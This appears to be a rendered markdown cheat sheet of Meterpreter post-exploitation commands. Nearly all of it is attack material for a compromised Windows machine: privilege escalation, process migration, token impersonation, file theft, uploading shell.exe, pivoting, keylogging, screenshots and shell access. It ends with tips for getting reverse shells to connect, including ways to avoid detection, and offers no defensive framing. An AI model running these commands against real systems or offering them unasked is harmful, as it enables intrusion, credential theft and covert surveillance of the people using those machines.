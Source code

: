 ## Meterpreter Post-Exploitation Commands

```bash
# System information
sysinfo
getuid
getprivs

# Session management
background  # Background the current session
sessions -i 1  # Resume session 1

# Privilege escalation
getsystem
migrate PID  # Migrate to another process

# Token impersonation
use incognito
list_tokens -u
impersonate_token "DOMAIN\\User"

# File operations
download C:\\important.txt /tmp/
upload shell.exe C:\\Windows\\Tasks\\

# Network operations
portfwd add -l 3389 -p 3389 -r target  # Port forwarding
route add 192.168.1.0 255.255.255.0 1  # Routing through session

# Keylogging
keyscan_start
keyscan_dump
keyscan_stop

# Screenshot
screenshot

# Shell access
shell  # Get system shell
```

## Troubleshooting Common Issues

### Reverse Shell Not Connecting
- Check firewall rules on both systems
- Verify network connectivity
- Try different ports (80, 443, 8080, 53)
- Use encrypted channels if detection is a concern

### Unstable Shell Issues
- Use proper shell upgrade techniques
- Check terminal emulation compatibility
- For large outputs, redirect to a file then download
